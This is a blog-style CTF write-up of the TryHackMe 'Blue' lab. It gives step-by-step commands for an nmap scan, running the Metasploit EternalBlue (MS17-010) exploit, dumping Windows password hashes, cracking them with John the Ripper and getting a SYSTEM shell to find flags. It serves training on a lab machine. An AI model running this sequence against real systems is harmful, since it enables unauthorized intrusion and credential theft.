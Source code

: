 ```yaml
---
layout : post 
title: TryHackMe Blue
author: Edwards
date: 2020-10-2
categories: [CTF, TryHackMe]
tags: [Windows, Easy]
math: true
--- 
```


## Through this box we are going to learn :

Scan a machine.
Exploit a machine with metasploit.
Crack password with John The Ripper.
Use powershell to find flags inside a windows machine.

### Section 1 : Recon

ip=10.10.77.120

Let's start by scanning the machine with nmap
```bash
edwards@kali:~$ nmap -T4 -p- -A 10.10.77.120
```
-T4 : For the speed of the scan, not recommended on real situation.
-p- : Scan all ports on the machine, so you don't miss anything.
-A : Enable all kind of scanning, like OS detection.

![image](/BaptisteTheo.github.io/assets/img/nmap.png)

We can see that we have the OS version and the ports that are open.
Let's go on google to find an exploit for this Windows version. 

I found on Rapid 7 an exploit that we can use on metasploit.

### Section 2 : Exploit

Start metasploit to use the exploit that we found.
```bash
msfconsole
```

Use the command search + the name of the exploit
```bash 
search ms17-010
```

Next step is to say "use + full exploit path" 
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Display the options with "options" (clever ;) )
If you are not familiar with metasploit, you can see that their are a bunch of options.
Some of them are required but they are already set. 
You just have to enter your target ip with the "set RHOSTS <ip>" 

![image](/BaptisteTheo.github.io/assets/img/rhost.png)
_The options display should look like this after_

Use the command "run" to launch the exploit.
_Or "exploit" if you are a cool kid_

### Section 3 : Cracking hash

We are in ! 

Our next task is to crack the hash password.

We can dump the password with "hashdump".
```bash
hashdump
```
![image](/BaptisteTheo.github.io/assets/img/hashdump.png)

Let's write the output in a file called password.txt
Then I used a tool called "john the ripper", an open source and very efficient password cracker.

![image](/BaptisteTheo.github.io/assets/img/john.png)
_TryHackMe says that the rockyou.txt wordlist is enough so I used that._

### Section 4 : Find flags
Let's head back to metasploit and find flags hidden inside the machine. 

I used the command "shell" to interact with the file directory.
```bash
shell
```
![image](/BaptisteTheo.github.io/assets/img/shell.png)

Always check who you are in the system with the "whoami" command.
```bash
whoami
```

![image](/BaptisteTheo.github.io/assets/img/whoami.png)

We are authority system, look how lucky we got !

Go back to meterpreter  with "ctrl+z". 
Use the command <search -f flag*> to find the location of the 3 flags.

![image](/BaptisteTheo.github.io/assets/img/location.png)

Go back inside with "shell" command and look for them.
- "cd" to move through the file system.
- "more" <file_name> to open the file.
- "dir" to know where you are.

![image](/BaptisteTheo.github.io/assets/img/flags.png)


Congrats ! You finished the box ! 
